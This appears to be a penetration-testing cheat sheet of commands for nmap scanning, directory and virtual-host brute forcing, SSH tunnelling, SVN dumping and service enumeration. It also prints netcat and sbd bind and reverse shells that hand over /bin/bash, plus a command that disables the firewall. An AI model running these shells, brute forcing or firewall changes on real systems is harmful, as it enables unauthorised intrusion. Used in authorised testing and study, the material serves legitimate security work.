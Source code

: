 ## Nmap Scan

Launch normal scan

`nmap -sC -sV -Pn -oA nmap-out example.com`

Find nse scripts 

`ls /usr/share/nmap/scripts/|grep svn`

Get help for particular nse script

`nmap --script-help svn-brute.nse`

## SCP to copy files

Upload file/folder

`scp -r local.txt host:/path/to/dest`

Download file/folder

`scp -r host:/path/to/remote.txt .`

## Directory Brute Force

Dirsearch for brute forcing file system

`./dirsearch.py -r -e old,new,txt,asp,aspx,jsp,jspx,bak,gz,zip,tar,7z,php,htm,html,bat,sh,do -b --random-agents --plain-text-report=dirsearch.out -u url -w wordlist(optional)`

FFuf to fuzz content

`ffuf -w content_discovery_all.txt -u http://host/ -o dirfuzz.txt -of md -timeout 30 -ac -s -t 20 -se`


## Virtual Host Discovery

`ffuf -w /path/to/vhost/wordlist -u https://target -H "Host: FUZZ" -fs 4242`

## SSH Port Forwarding

__Local Forwarding__ - Binding to local machine port 8080 and forwarding to 10.10.10.203 on port 80 via vps (only localhost can connect)

`ssh -L 8080:10.10.10.203:80 vps_ip`

__Remote forwarding__ - Remote ssh server listens on remote port 8080 and forwards all the traffic to remote port 8080 via ssh client to destination host.(Opposite of Local Forwarding)

`ssh -R 8080:localhost:80 public.example.com`

__Dynamic Forwarding__ - Dynamic port forwarding allows you to create a socket on the local (ssh client) machine, which acts as a SOCKS proxy server. Running below command on vps will make it act as a socks proxy on port 8080.

`ssh -D vps_ip:8080 vps_ip`


## SVN commands

```
svn checkout svn://host
svn log
svn update -r r5
```

Dump repo content

`svnrdump dump svn://host`

## Searching File System 

```
Find <location> -name <to find>
eg: find / -name ettercap
```

```
locate filename  --> to locate anything
updatebd --> to update local database
```

## Enumerate running services and ports

```
netstat -antp --> running services and ports
```

## Bind and Reverse Shells

* Netcat Shells

```
nc -nv 192.168.145.129 4444 -e /bin/bash 2> error_log 
nc -nlvp 4444 

ncat is similar to nc but also supports ssl for encryption

ncat -nlvp 4444 --ssl --allow <ip>
ncat -nv <ip_to_connect> 4444
```

* SBD shells

```
sbd -lp 4444 -k secret -e /bin/bash
sbd -k secret 127.0.0.1 4444
```

## Firewall Commands

Disable firewall

```
ufw disable
```